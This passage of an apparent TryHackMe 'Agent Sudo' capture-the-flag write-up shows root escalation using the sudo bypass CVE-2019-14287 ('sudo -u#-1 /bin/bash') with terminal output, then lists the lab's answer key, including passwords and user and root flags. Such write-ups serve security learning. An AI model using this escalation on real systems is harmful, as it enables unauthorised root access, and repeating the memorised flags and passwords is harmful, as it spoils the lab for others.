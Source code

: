- To answer the next question, just download `Alien_autospy.jpg` and put it in Google Reverse Image Search, it will show `Roswell alien autopsy`

---

## 👑 Root Privilege Escalation

- Time to get real! This was pretty easy for me since earlier today I did [Linux Agency room](https://tryhackme.com/room/linuxagency) and I did the exact same exploitation there. You can find all the details about the exploit [here](https://www.exploit-db.com/exploits/47502).

  ```
  james@agent-sudo:/$ sudo -l
  [sudo] password for james: 
  Matching Defaults entries for james on agent-sudo:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User james may run the following commands on agent-sudo:
      (ALL, !root) /bin/bash
  
  james@agent-sudo:/$ sudo -u#-1 /bin/bash
  
  root@agent-sudo:/# whoami
  root
  
  root@agent-sudo:/# cd root
  root@agent-sudo:/root# ls
  root.txt
  root@agent-sudo:/root# cat root.txt 
  To Mr.hacker,
  
  Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 
  
  Your flag is 
  b53a02f55b57d4439e3341834d70c062
  
  By,
  DesKel a.k.a Agent R
  ```

---

## 🏁 Flags

- **How many open ports?**: `3`
- **How you redirect yourself to a secret page?**: `user-agent`
- **What is the agent name?**: `chris`
- **FTP password**: `crystal`
- **Zip file password**: `alien`
- **steg password**: `Area51`
- **Who is the other agent (in full name)?**: `james`
- **SSH password**: `hackerrules!`
- **What is the user flag?**: `b03d975e8c92a7c04146cfa7a5a313c7`
- **What is the incident of the photo called?**: `Roswell alien autopsy`
- **CVE number for the escalation (Format: CVE-xxxx-xxxx)**: `CVE-2019-14287`
- **What is the root flag?**: `b53a02f55b57d4439e3341834d70c062`
- **(Bonus) Who is Agent R?**: `DesKel`

---